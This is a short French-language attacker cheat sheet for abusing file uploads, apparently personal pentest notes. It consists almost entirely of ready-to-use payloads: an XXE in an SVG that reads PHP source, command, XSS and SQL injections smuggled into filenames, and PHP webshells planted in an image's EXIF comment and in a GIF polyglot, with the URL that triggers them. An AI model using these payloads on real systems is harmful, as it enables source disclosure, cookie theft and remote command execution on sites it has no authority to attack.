Lire code source d'un fichier php

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


## RCE

Injecter une commande dans le nom du fichier

```
file$(whoami).jpg
```

```
file`whoami`.jpg
```

```
file.jpg||whoami
```

## XSS

[[XSS (Cross-Site Scripting)]]

Injecter une XSS dans le nom de fichier

```javascript
"><svg onload = alert(document.cookie)>.docx
```

## SQLi

[[SQLi (Injections SQL)]]

Injecter une requête SQL dans le nom de fichier

```sql
' GROUP BY 1 #
```


### Injecter un webshell dans une image #EXIFTOOL

```
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' lo.jpg
```

### Image (récupérer URL en inspectant la page)

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```url
./path/to/shell.gif&cmd=id
```
